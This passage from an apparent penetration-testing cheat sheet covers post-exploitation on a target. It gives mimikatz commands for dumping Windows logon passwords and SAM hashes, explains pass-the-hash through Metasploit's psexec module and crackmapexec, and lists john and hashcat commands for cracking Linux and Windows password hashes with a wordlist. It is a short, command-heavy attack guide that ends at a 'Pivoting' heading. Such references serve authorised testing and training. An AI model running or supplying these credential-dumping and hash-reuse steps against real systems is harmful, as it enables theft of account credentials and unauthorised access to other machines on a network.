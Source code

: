 You can use mimikatz program in the target Windows machine in order to dump hashes.

```powershell
mimikatz> privilege::debug
mimikatz> sekurlsa::logonpasswords
mimikatz> lsadump::sam
```

**Pass-The-Hash Attack**

You can use the msf exploit module named **psexec** to do a Pass-The-Hash attack. You have to give PASS=\<LM>:\<NTLM> in this module in order to work correctly as well as tweak the target settings as well to Native Upload.

You can use crackmapexec to do this same attack but used -H instead -p and pass the NTLM hash only.

To crack the Linux Password Hashes:

```bash
john --format=sha512crypt <unshadowfilelocation>
hashcat -m 1800 hashes.txt /usr/share/wordlist/rockyou.txt
# $1 prefix in password hash for MD5
# $2 prefix in password hash for Blowfish
# $5 prefix in password hash for SHA-256
# $6 prefix in password hash for SHA-512
```

To crack the Windows Password Hashes:

```bash
john --format=NT hashes.txt
hashcat -m 1000 hashes.txt /usr/share/wordlist/rockyou.txt
```

<h1 id='pivot'>Pivoting</h1>

![Pivoting](pivoting.png)
